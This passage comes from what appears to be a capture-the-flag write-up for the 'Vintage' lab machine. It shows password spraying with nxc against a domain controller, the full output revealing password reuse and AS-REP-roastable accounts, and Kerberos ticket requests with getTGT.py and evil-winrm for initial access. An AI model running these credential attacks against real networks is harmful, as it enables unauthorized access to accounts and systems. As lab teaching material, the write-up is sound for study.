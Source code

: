 ## User
We are only able to crack the password for `svc_sql` which is `Zer0the0ne`. 

### Password Spraying
Well we got a password but the account is not of much use, so lets do some password spraying.

```console
$ nxc smb dc01.vintage.htb -u users.txt -p Zer0the0ne -k --continue-on-success
SMB         dc01.vintage.htb 445    dc01             [*]  x64 (name:dc01) (domain:vintage.htb) (signing:True) (SMBv1:False)
SMB         dc01.vintage.htb 445    dc01             [-] vintage.htb\Administrator:Zer0the0ne KDC_ERR_PREAUTH_FAILED
SMB         dc01.vintage.htb 445    dc01             [-] vintage.htb\Guest:Zer0the0ne KDC_ERR_CLIENT_REVOKED
SMB         dc01.vintage.htb 445    dc01             [-] vintage.htb\DC01$:Zer0the0ne KDC_ERR_PREAUTH_FAILED
SMB         dc01.vintage.htb 445    dc01             [-] vintage.htb\krbtgt:Zer0the0ne KDC_ERR_CLIENT_REVOKED
SMB         dc01.vintage.htb 445    dc01             [-] vintage.htb\gMSA01$:Zer0the0ne KDC_ERR_PREAUTH_FAILED
SMB         dc01.vintage.htb 445    dc01             [-] vintage.htb\FS01$:Zer0the0ne KDC_ERR_PREAUTH_FAILED
SMB         dc01.vintage.htb 445    dc01             [-] vintage.htb\M.Rossi:Zer0the0ne KDC_ERR_PREAUTH_FAILED
SMB         dc01.vintage.htb 445    dc01             [-] vintage.htb\R.Verdi:Zer0the0ne KDC_ERR_PREAUTH_FAILED
SMB         dc01.vintage.htb 445    dc01             [-] vintage.htb\L.Bianchi:Zer0the0ne KDC_ERR_PREAUTH_FAILED
SMB         dc01.vintage.htb 445    dc01             [-] vintage.htb\G.Viola:Zer0the0ne KDC_ERR_PREAUTH_FAILED
SMB         dc01.vintage.htb 445    dc01             [+] vintage.htb\C.Neri:Zer0the0ne
SMB         dc01.vintage.htb 445    dc01             [-] vintage.htb\P.Rosa:Zer0the0ne KDC_ERR_PREAUTH_FAILED
SMB         dc01.vintage.htb 445    dc01             [+] vintage.htb\svc_sql:Zer0the0ne
SMB         dc01.vintage.htb 445    dc01             [+] vintage.htb\svc_ldap account vulnerable to asreproast attack
SMB         dc01.vintage.htb 445    dc01             [+] vintage.htb\svc_ark account vulnerable to asreproast attack
SMB         dc01.vintage.htb 445    dc01             [-] vintage.htb\C.Neri_adm:Zer0the0ne KDC_ERR_PREAUTH_FAILED
SMB         dc01.vintage.htb 445    dc01             [-] vintage.htb\L.Bianchi_adm:Zer0the0ne KDC_ERR_PREAUTH_FAILED
```

The password is also valid for the user `C.Neri`. This user is also part of the `Remote Management Users` group so this will be our initial access.

```console
$ getTGT.py vintage.htb/C.Neri -dc-ip 10.10.11.45

Password:Zer0the0ne
[*] Saving ticket in C.Neri.ccache

$ export KRB5CCNAME=C.Neri.ccache
$ evil-winrm -i dc01.vintage.htb -r vintage.htb

Info: Establishing connection to remote endpoint
Cannot find KDC for realm "VINTAGE.HTB"

Error: Exiting with code 1
```
